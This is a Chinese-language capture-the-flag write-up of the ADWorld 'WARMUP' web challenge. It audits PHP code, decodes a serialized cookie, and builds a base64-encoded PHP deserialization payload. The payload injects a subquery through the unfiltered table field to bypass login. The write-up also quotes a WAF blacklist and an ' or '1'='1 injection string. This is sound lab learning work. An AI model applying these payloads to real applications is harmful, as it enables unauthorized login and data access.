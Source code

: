 # WARMUP-adworld

![image-20240909191220820](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240909191220820.png)

首先代码审计发现对于cookie有很多信息，尤其是在index.php直接有判断

![image-20240909191507009](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240909191507009.png)

那我们首先抓一下包

![image-20240906212200548](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240906212200548.png)

可以看到cookie直接有泄露，对last_login_info直接base64解密得到，这意思是cookie中记录了地址

```
a:1:{s:2:"ip";s:12:"112.48.20.87";}
```



首先审计代码，在传入user和passwd时候已经使用**addslashes**函数过滤了

![image-20240909191538435](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240909191538435.png)

- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

四种符号，之后会通过waf的

```
$blacklist = ["union", "join", "!", "\"", "#", "$", "%", "&", ".", "/", ":", ";", "^", "_", "`", "{", "|", "}", "<", ">", "?", "@", "[", "\\", "]" , "*", "+", "-"];
```

的筛选。理论上这次sql注入确实难度不小。

首先不提addslashes函数是可以绕过的，可以发现在table中是没有使用addslashes函数过滤的、

那么这里就存在对table的sql注入

并且给出了完整的php文件，为我们本地测试反序列化提供条件

我们要做的就是，在这一个sql查询中添加我们的反序列化语言

```php
public function **query**() {

​    $this->**waf**();

​    return $this->conn->**query** ("select username,password from ".$this->table." where username='".$this->username."' and password='".$this->password."'");

  }
```

首先通过本地部署创建类进行反序列化得到结果

```
O:3:"SQL":4:{s:5:"table";s:0:"";s:8:"username";s:0:"";s:8:"password";s:0:"";s:4:"conn";N;}
```

我们可以在table处进行注入，并且这里涉及到sql语法（也是看wp学到的，对sql语法还不是很熟练

对于这么一个sql语句的构造，临时表创建后就会使得where语句查询正确并且查询结果也正确

```sql
SELECT username, password 
FROM (SELECT 'admin' AS username, '123' AS password) AS subquery 
WHERE username = 'admin' AND password = '123';

```

所以构造反序列化并且base64加密

```
O:3:"SQL":4:{s:5:"table";s:54:"(SELECT 'admin' AS username, '123' AS password) AS tll";s:8:"username";s:5:"admin";s:8:"password";s:3:"123";s:4:"conn";N;}}
```



```
TzozOiJTUUwiOjQ6e3M6NToidGFibGUiO3M6NTQ6IihTRUxFQ1QgJ2FkbWluJyBBUyB1c2VybmFtZSwgJzEyMycgQVMgcGFzc3dvcmQpIEFTIHRsbCI7czo4OiJ1c2VybmFtZSI7czo1OiJhZG1pbiI7czo4OiJwYXNzd29yZCI7czozOiIxMjMiO3M6NDoiY29ubiI7Tjt9fQ==
```

不过看wp中，设计到passwd也有or 1=1的布尔注入，

```
O:3:"SQL":5:{s:5:"table";s:5:"users";s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";s:4:"conn";N;s:10:"SQL_wakeup";N;}
```

但是我认为waf中应该过滤了才对，但他却成功注入，感觉其中有研究